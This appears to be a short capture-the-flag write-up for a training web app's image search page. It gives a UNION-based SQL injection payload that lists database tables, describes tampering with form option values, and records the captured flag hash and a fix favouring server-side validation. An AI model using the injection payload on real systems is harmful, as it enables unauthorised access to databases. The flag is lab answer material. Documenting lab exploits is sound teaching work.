 # Where:
    /?page=searchimg
# How:
    -By entering
    > -1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()`
    -Change the value of 1 of the options to an invalid value.
    Or
    -Add an invalid option.
    -Select the invalid value
    -Receive the flag
# Flag:
    03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
    Store options server side/on backend.All user input should be sanitised and validated (backend).